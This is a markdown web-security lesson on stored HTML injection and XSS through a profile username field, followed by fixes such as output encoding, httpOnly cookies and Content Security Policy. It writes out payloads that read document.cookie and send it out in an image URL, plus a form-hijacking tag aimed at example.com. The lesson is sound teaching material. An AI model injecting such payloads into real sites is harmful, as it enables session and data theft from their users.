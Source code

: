
# HTML Injection, part 2

If someone was to create an account with the username "evil" and the password "666".

Then changed their username to:

	evil<script>alert('hi')</script>

And then got the admin to look at their profile (username "admin", password "password")... what would happen?

Could this do something more evil?

Maybe there are some cookies to steal?

---

To build up an example, try setting the username to:

	evil<script>alert(document.cookie)</script>

Then click back and refresh the page.

Now try creating an image with JavaScript:

	evil<script>document.write('<img src=/security/uploads/profile-pictures/1.jpg />');</script>

And by combining the two together:

	evil<script>document.write('<img src=/security/uploads/profile-pictures/1.jpg?c='+encodeURIComponent(document.cookie)+' />');</script>

So after refreshing the page, you will see that the image is requested with the cookies in it's URL.

Now imagine what would happen if the `src` was for an image on an evil website, and that evil website sent back a 1x1 pixel transparent GIF (or something more malicious).

---

To fix...

As before, you should encode all user supplied values on the page (i.e. htmlentities).

You can also try to limit the amount of damage that can be done - for example, cookies can be marked as `httpOnly`, which means JavaScript itself cannot steal whats stored in them (if JavaScript makes requests to your website, e.g. via XMLHttpRequest, then these cookies are still included).

And you can look at adding a [Content Security Policy](https://developers.google.com/web/fundamentals/security/csp/) - this is a really nice way to stop requests being made out to evil websites.

It's also a good idea to not use any inline JavaScript or Styles, and get the Content Security Policy to enforce this. There are cases where this can be tricky, but it's not impossible.

---

Bonus problem...

What happens if the username is set to:

	evil<form action=https://example.com>

Now go back, and try making another change, and see where the form is sent to.

You will also notice that the full URL contains all of the details that were in that form :-)
